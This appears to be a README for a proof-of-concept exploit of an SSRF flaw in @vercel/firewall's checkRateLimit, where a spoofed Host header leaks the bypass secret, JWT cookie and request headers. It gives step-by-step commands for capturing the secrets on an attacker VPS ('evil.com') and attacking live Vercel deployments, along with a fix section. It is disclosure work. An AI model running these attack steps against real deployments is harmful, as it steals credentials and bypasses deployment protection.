

# SSRF via Host Header Injection in @vercel/firewall

SSRF in `unstable_checkRateLimit` from `@vercel/firewall`. The function reads the HTTP Host header from the incoming request and uses it to build a server-side fetch URL. It attaches `VERCEL_AUTOMATION_BYPASS_SECRET`, the `_vercel_jwt` auth cookie, and all original request headers to that fetch. An attacker who sends a request with a spoofed Host header gets those secrets sent to a server they control.

**Affected versions:** all through 1.2.6 (latest). The vulnerable code path has been present since `checkRateLimit` was introduced.

## What is the vulnerability

`checkRateLimit` takes the Host header from the incoming HTTP request at line 77 of `packages/firewall/src/rate-limit.ts` and plugs it into a URL at line 102:

```typescript
let firewallHost = requestHeaders.get('host') || undefined;  // line 77
// ...
const url = `https://${firewallHost}${pathPrefix}/.well-known/vercel/rate-limit-api/${encodeURIComponent(rateLimitId)}`;  // line 102
```

It then fetches that URL with these headers attached:

- `x-vercel-protection-bypass` containing `VERCEL_AUTOMATION_BYPASS_SECRET` (line 118)
- `cookie` with `_vercel_jwt` if present in the original request (line 123)
- Every original request header forwarded with `x-rr-` prefix (lines 126-128)

The `firewallHost` value has zero validation. Only `rateLimitId` gets `encodeURIComponent`. The Host header goes straight into the URL.

## How the attack works



TLS routing (SNI) puts the request at the correct deployment regardless of the Host header value. The Host header is part of the HTTP payload, not the TLS handshake, so an attacker can set it to anything using curl or a raw socket.

## What you need

- Python 3
- Node.js 18+ (for the local vulnerable server only)

For attacking a live deployment:
- A VPS with a public IP
- A domain pointing to the VPS (e.g. evil.com)
- A TLS certificate for that domain (free via Let's Encrypt)

## Setup

The exploit has two modes:

| Mode | What it does | When to use |
|------|-------------|-------------|
| `listen` | Runs the attacker capture server, prints leaked secrets as they arrive | On your VPS (with TLS) or locally (with `--no-tls`) |
| `attack` | Sends a single request with a spoofed Host header to the target | Against a Vercel deployment, after `listen` is running |

### Local testing

Three terminals.

**Terminal 1** - start the vulnerable server (uses the real `@vercel/firewall` npm package):

```
cd vulnerable-server && npm install && node server.js
```

**Terminal 2** - start the attacker capture server:

```
python exploit.py listen --port 4444 --no-tls
```

**Terminal 3** - send the exploit:

```
python exploit.py attack --target http://localhost:3000 --attacker-host localhost --attacker-port 4444
```

The attacker server (terminal 2) prints the leaked `VERCEL_AUTOMATION_BYPASS_SECRET`, cookies, and forwarded headers.

### Live target (VPS)

Attack a real Vercel deployment that uses `checkRateLimit`.

**On your VPS** - get a TLS cert and start the capture server:

```
certbot certonly --standalone -d evil.com
```

```
python exploit.py listen --port 443 --cert /etc/letsencrypt/live/evil.com/fullchain.pem --key /etc/letsencrypt/live/evil.com/privkey.pem
```

checkRateLimit builds an `https://` URL, so the attacker server needs a valid TLS certificate.

**From anywhere** - send the exploit:

```
python exploit.py attack --target https://victim-app.vercel.app --endpoint /api/data --attacker-host evil.com
```

This opens a TLS connection to the real deployment (SNI = `victim-app.vercel.app`, routes correctly) but sends `Host: evil.com` in the HTTP request. checkRateLimit reads that Host header and fetches `https://evil.com/.well-known/vercel/rate-limit-api/<id>` with all secrets attached. Your VPS captures them.

### All options

```
python exploit.py listen --port 443 --cert fullchain.pem --key privkey.pem
python exploit.py listen --port 4444 --no-tls
python exploit.py attack --target https://victim.vercel.app --endpoint / --attacker-host evil.com
python exploit.py attack --target http://localhost:3000 --attacker-host localhost --attacker-port 4444
```

## Impact

- **Deployment protection bypass**: `VERCEL_AUTOMATION_BYPASS_SECRET` is the secret that gates access to protected deployments. Leaking it lets an attacker bypass password protection and preview restrictions.
- **Session hijacking**: the `_vercel_jwt` cookie is forwarded to the attacker if present in the original request.
- **Credential theft**: `Authorization` headers and all other request headers are forwarded with the `x-rr-` prefix.

## Fix

Do not use the request Host header to build the server-side URL. Options:

- Use a platform-set environment variable for the deployment host
- Hardcode the rate limit API to a fixed internal endpoint
- Validate the Host header against a known allowlist before using it
